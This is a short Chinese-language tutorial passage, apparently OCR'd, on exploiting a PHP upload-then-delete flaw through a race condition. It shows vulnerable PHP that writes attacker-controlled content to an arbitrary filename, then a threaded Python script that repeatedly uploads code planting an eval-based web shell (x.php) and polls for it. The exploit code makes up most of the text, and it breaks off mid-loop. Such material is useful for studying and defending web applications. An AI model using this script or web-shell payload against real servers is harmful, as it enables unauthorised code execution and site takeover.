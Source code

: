 ```
get_declared_classes()
```

**上传后删除问题**

```php
$user = $_POST['user'];
$filename = __DIR__.'\\'.$user['name'];
$data = $user['info'];

file_put_contents($filename, $data);

print_r($_POST);
// 一些处理
if (file_exists($filename)) {
	unlink($filename);
}
```

现在我们能控制$user变量，也就是说可以写入任意文件，但之后立刻就会被删除。

这种情况多存在于一些有缓存文件、临时文件的逻辑中，在实战里经常遇到。

利用条件竞争，在删除前生成新的shell。也可以开两个 intruder。

```python
import os, requests, threading

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.url = "http://127.0.0.1/tt.php"
        self.uploadUrl = "http://127.0.0.1/index.php"

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print("[*]create file info.php success")
            os._exit(0)

    def _upload(self):
        print("upload file.....")
        # file = {"file": '''<?php file_put_contents("x.php", '<?php eval($_POST[1]);?>');?>'''}
        data = {
            'user[name]' : 'tt.php',
            'user[info]' : '''<?php file_put_contents("x.php", '<?php eval($_POST[1]);?>');?>''',
        }
        requests.post(self.uploadUrl, data=data)

    def run(self):
        while True:
            for i in range(5):
                self._get()
            for i in range(10):
                self._upload()
                self._get()

if __name__ == "__main__":
    threads = 20

    for i in range(threads):
        t = RaceCondition()
        t.start()
        
    for i in range(threads):
```